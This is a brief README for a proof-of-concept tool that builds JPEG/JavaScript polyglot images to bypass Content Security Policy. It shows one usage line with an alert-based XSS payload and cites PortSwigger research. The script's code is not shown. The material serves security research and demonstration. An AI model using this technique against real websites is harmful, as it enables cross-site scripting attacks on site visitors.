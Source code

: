 # XSS_JPEG_polygot_CSP_Bypass
csp bypass using polygot 

## Usage:
```bash
Usage: exploit_payload_gen.py test.jpg '*/=alert("XSS");/*' injected.jpg
```
### Proof

![readme](https://user-images.githubusercontent.com/29424640/162610833-9b27bca2-80f9-4ff2-8f91-fef45bdb263f.png)

#### reference:
- https://portswigger.net/research/bypassing-csp-using-polyglot-jpegs
